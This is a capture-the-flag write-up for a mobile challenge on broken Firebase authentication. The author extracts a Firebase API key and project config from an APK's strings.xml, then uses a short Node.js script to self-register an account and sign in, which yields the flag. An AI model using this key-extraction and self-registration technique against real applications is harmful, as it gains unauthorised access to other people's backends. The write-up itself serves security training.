 ## Mobile 3 - Broken Firebase AuthN
#### Description
Firebase services are so popular. SaaS service like this is probably secure. Prove it wrong, in the case that it is insecurely misconfigured, like in this mobile application.  
  
__Flag format__ : WTCTT2023_MOB03{[a-z0-9]{32}}  
__File__ : sh.sth.secguy888.apk 
__SHA256 Checksum__ : 450c8abb1ec0b4ffc18f4c3992007738c8439e8d8d6a6d22a3e8ebbed0d827cf

#### Solution
We still on strings.xml. if you scroll down, you will find firebase credential.
![[./assets/mobile3/1.png]]

After discovering the credential, I looked up how to use apiKey; however, in order to use it, we must develop a program. I use nodeJs to develop a program

```less
npm i firebase
```

```js
  
import { initializeApp } from "firebase/app"

import { createUserWithEmailAndPassword, getAuth,signInWithEmailAndPassword } from "firebase/auth"

  

const firebaseConfig = {

apiKey: "AIzaSyC2G3pFXGQ028mFguwmQ2lTt92MRzRoufw",

storageBucket: "wtctt2023-secguy888.appspot.com",

appId: "1:874831948305:android:5606af5d393045e378dfb0",

databaseURL: "https://wtctt2023-secguy888.firebaseio.com",

authDomain: "wtctt2023-secguy888.firebaseapp.com",

};

  

const app = initializeApp(firebaseConfig);

const auth = getAuth(app)

createUserWithEmailAndPassword(auth, "someEmail", "somePassword").then((res) => { console.log(res) })

// signInWithEmailAndPassword(auth, "test3@gmail.com", "12345678").then((res) => { console.log(res) })
```

Run code for register and you will get user for login to application, comment create function and uncomment sign function.

![[./assets/mobile3/2.png]]

but we don't know login path, Let's find it

![[./assets/mobile3/3.png]]

Finally we found this function that told you about api path and how to use it.

![[./assets/mobile3/4.png]]

Yummy, we got FLAG3. XD!!!